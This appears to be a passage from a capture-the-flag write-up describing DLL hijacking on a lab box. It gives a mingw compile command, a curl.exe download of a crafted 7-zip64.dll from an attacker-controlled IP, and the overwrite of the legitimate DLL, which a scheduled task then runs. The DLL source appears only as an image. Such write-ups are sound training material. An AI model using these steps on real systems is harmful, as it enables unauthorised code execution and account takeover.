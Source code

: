 ![](<../../.gitbook/assets/image (14).png>)

Compile using:&#x20;

```
x86_64-w64-mingw32-gcc -shared -o 7-zip64.dll dll.c
```

Using SimpleHTTPServer to create a web server that allows me to transfer the file over to the box.

Copy file and overwrite 7-zip64.dll&#x20;

`curl.exe http://10.10.16.5:9080/7-zip64.dll -o 7-zip64.dll`

Wait for Scheduled Task (Runs approximately every 3 minutes according to HTTP Server)

![](<../../.gitbook/assets/image (29).png>)

![](<../../.gitbook/assets/image (41).png>)

![](<../../.gitbook/assets/image (30).png>)

### Owned User

![](<../../.gitbook/assets/image (36).png>)
